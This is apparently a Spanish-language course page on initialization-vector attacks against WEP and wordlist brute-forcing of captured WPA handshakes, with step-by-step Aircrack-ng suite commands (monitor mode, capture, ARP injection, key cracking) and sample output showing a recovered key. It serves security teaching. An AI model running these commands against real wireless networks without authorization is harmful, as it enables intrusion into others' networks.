```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ataques de vector de inicialización (IV) y protocolos inalámbricos no seguros

Un atacante puede provocar alguna modificación en el **vector de inicialización** (IV) de un paquete inalámbrico que se cifra durante la transmisión. El objetivo del atacante es obtener mucha información sobre el texto sin formato de un solo paquete y generar otra clave de cifrado que luego pueda usarse para descifrar otros paquetes usando el mismo IV. WEP es susceptible a muchos ataques diferentes, incluidos los ataques intravenosos.

## **Ataques contra WEP**

El WEP  se considera un protocolo inalámbrico obsoleto.

Las claves WEP existen en dos tamaños: claves de 40 bits (5 bytes) y 104 bits (13 bytes). Además, WEP utiliza un IV de 24 bits, que se antepone a la clave precompartida (PSK). Cuando configura un dispositivo de infraestructura inalámbrica con WEP, los IV se envían en texto sin formato.

WEP utiliza RC4 de una manera que permite a un atacante descifrar el PSK con poco esfuerzo. El problema está relacionado con cómo WEP utiliza los IV en cada paquete. Cuando WEP utiliza RC4 para cifrar un paquete, antepone el IV a la clave secreta antes de incluir la clave en RC4.Un atacante obtiene los primeros 3 bytes de una clave supuestamente "secreta" utilizada en cada paquete. Para recuperar el PSK, un atacante sólo necesita recopilar suficientes datos del aire. Un atacante puede acelerar este tipo de ataque simplemente inyectando paquetes ARP (porque la longitud es predecible), lo que le permite recuperar el PSK mucho más rápido. Después de recuperar la clave WEP, el atacante puede usarla para acceder a la red inalámbrica.

Un atacante también puede utilizar el conjunto de herramientas Aircrack-ng para descifrar (recuperar) la WEP PSK.&#x20;

_Uso de Airmon-ng para monitorear una red inalámbrica_

<pre class="language-bash"><code class="lang-bash"><strong>airmon-ng start wlan0 11 
</strong></code></pre>

La interfaz inalámbrica es **wlan0** y el canal inalámbrico seleccionado es **11** . Ahora el atacante quiere escuchar todas las comunicaciones dirigidas al BSSID **08:02:8E:D3:88:82**&#x20;

El comando escribe todo el tráfico en un archivo de captura llamado **omar\_capture.cap** . El atacante sólo tiene que especificar el prefijo del archivo de captura.

<pre><code><strong>airodump-ng -c 11 --bssid 08:02:8E:D3:88:82 -w omar_capture wlan0
</strong></code></pre>

El atacante puede usar Aireplay-ng para escuchar solicitudes ARP y luego reproducirlas o inyectar nuevamente en la red inalámbrica.

_Uso de Aireplay-ng para inyectar paquetes ARP_

<pre><code><strong>aireplay-ng -3 -b 08:02:8E:D3:88:82 -h 00:0F:B5:88:AC:82 wlan0
</strong></code></pre>

El atacante puede utilizar Aircrack-ng para descifrar la PSK WEP.

_Uso de **Aircrack-ng**_ _para descifrar WEP PSK_

<pre><code><strong>aircrack-ng -b 08:02:8E:D3:88:82 omar_capture.cap
</strong></code></pre>

Después de que Aircrack-ng crackea (recupera) la PSK WEP.

_**Ejemplo 5-20**_ _: WEP PSK crackeada (recuperada)_

```
                                 Aircrack-ng 0.9


                                 [00:02:12] Tested 924346 keys (got
99821 IVs)

 KB  depth byte(vote)
 0   0/ 9 12( 15) A9( 25) 47( 22) F7( 12) FE( 22) 1B( 5) 77( 3)
A5( 5) F6( 3) 02( 20)
 1     0/ 8 22( 11) A8( 27) E0( 24) 06( 18) 3B( 26) 4E( 15) E1( 13)
25( 15) 89( 12) E2( 12)
 2     0/ 2 32( 17) A6( 23) 15( 27) 02( 15) 6B( 25) E0( 15) AB( 13)
05( 14) 17( 11) 22( 10)
 3     1/ 5 46( 13) AA( 20) 9B( 20) 4B( 17) 4A( 26) 2B( 15) 4D( 13)
55( 15) 6A( 15) 7A( 15)


                        KEY FOUND! [ 56:7A:15:9E:A8 ]
      Decrypted correctly: 100%
```

## **Ataques contra WPA**

WPA y WPA versión 2 (WPA2) son susceptibles a diferentes vulnerabilidades. WPA versión 3 (WPA3) aborda todas las vulnerabilidades a las que son susceptibles WPA y WPA2, y muchos profesionales inalámbricos recomiendan WPA3 a organizaciones e individuos.

Todas las versiones de WPA admiten diferentes métodos de autenticación, incluido PSK. WPA no es susceptible a los ataques intravenosos que afectan a WEP;,es posible capturar el protocolo de enlace WPA de cuatro vías entre un cliente y un dispositivo de infraestructura inalámbrica y luego aplicar fuerza bruta al WPA PSK.

## **Cómo realizar este ataque utilizando el conjunto de herramientas Aircrack-ng.**

**Paso 1 **_**.**_ El atacante usa Airmon-ng para iniciar la interfaz inalámbrica en modo de monitoreo, usando el   comando **airmon-ng start wlan0 .**

**Paso 2 **_**.**_ Después de localizar la red corp-net, el atacante usa el  comando **airodump-ng** , para capturar todo el tráfico en un archivo de captura llamado  **wpa\_capture** , especificando el canal inalámbrico ( **11**  , en este ejemplo), el BSSID y la interfaz inalámbrica ( **wlan0** ).

```
airodump-ng --bssid 08:02:8E:D3:88:82 --channel 11 --write wpa_capture wlan0
```

Paso 3. El atacante utiliza el  comando **aircrack-ng**  para descifrar el WPA PSK utilizando una lista de palabras.

```
aircrack-ng -w words wpa_capture-02.cap
```
